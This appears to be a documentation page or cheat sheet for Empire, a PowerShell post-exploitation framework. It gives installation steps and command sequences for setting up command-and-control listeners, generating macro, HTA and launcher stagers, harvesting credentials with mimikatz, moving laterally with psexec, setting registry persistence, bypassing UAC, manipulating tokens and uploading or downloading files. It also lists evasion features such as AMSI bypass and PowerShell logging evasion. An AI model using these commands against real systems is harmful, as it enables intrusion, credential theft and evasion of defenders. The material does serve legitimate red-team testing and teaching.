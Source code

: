 # Empire - PowerShell Post-Exploitation Framework

Pure PowerShell post-exploitation agent built on cryptologically-secure communications.

## Installation

```bash
# Clone repository
git clone https://github.com/EmpireProject/Empire.git
cd Empire

# Install dependencies
./setup/install.sh

# Start Empire
./empire
```

## Core Components

### Listeners
Communication channels between Empire server and agents.

```bash
# HTTP listener
uselistener http
set Host 192.168.1.100
set Port 8080
execute

# HTTPS listener
uselistener https
set Host 192.168.1.100
set CertPath /path/to/cert.pem
execute
```

### Stagers
Initial payload delivery mechanisms.

```bash
# PowerShell launcher
usestager multi/launcher
set Listener http
generate

# Macro stager
usestager windows/macro
set Listener http
generate

# HTA stager
usestager windows/hta
set Listener http
generate
```

### Modules
Post-exploitation capabilities organized by category.

```bash
# Credential harvesting
usemodule credentials/mimikatz/logonpasswords
execute

# Lateral movement
usemodule lateral_movement/invoke_psexec
set ComputerName target.domain.com
execute

# Persistence
usemodule persistence/userland/registry
execute
```

## Agent Management

```bash
# List active agents
agents

# Interact with agent
interact AGENT_NAME

# Execute PowerShell command
shell Get-Process

# Upload/download files
upload /local/path/file.txt
download C:\temp\data.txt
```

## Privilege Escalation

```bash
# UAC bypass
usemodule privesc/bypassuac
execute

# Token manipulation
usemodule credentials/tokens
execute

# Service enumeration
usemodule situational_awareness/host/winenum
execute
```

## Operational Security

### Communication Security
- Encrypted agent communication
- Configurable check-in intervals
- Domain fronting support

### Detection Evasion
- AMSI bypass techniques
- PowerShell logging evasion
- Memory-only execution

## Custom Modules

Framework supports custom PowerShell module development for specialized operations.

